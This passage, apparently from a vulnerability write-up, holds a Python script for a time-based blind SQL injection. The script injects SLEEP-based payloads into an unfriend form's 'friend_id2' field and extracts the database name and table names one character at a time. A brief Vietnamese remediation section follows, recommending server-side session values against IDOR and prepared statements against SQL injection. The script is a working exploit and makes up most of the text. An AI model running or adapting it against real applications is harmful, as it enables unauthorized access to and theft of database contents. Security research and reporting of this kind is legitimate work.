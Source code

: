 ```python
            break
    return db_name
def extract_table_names():
    table_names = []
    print("\n[+] Extracting Table Names:")
    for table_index in range(10):  # Assuming max 10 tables
        table_name = ""
        print(f"[+] Extracting Table {table_index + 1}: ", end="", flush=True)
        for char_index in range(1, 15):  # Assuming max length of table name is 50
            found = False
            for char in string.printable:
                ascii_val = ord(char)
                payload = f"1 AND ASCII(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=DATABASE() LIMIT {table_index},1),{char_index},1))={ascii_val} AND SLEEP(30) --"
                data = {"friend_id": "21", "friend_id2": payload, "delete_submit": "Unfriend"}
                start_time = time.time()
                response = requests.post(url, headers=headers, data=data, cookies=cookies)
                elapsed_time = time.time() - start_time
                if elapsed_time > 30:
                    table_name += char
                    print(char, end="", flush=True)
                    found = True
                    break
            if not found:
                break
        if table_name:
            table_names.append(table_name)
            print()  # Move to new line for next table
        else:
            break
    print("[+] Table Names Extraction Complete!")
    return table_names
if __name__ == "__main__":
    print("Starting Database Name Extraction...")
    db_name = extract_database_name()
    print(f"\nDatabase Name: {db_name}")
    print("\nStarting Table Names Extraction...")
    table_names = extract_table_names()
    print(f"\nExtracted Tables: {table_names}")
```

# Solution

1. Các lỗi về IDOR thì có thể sử dụng biến `$_SESSION['friend_id']` đã được lưu ở server thay vì nhận `$_POST["friend_id"]`
2. Các câu lệnh SQL thì nên sử dụng prepared statement để ngăn chặn SQLi
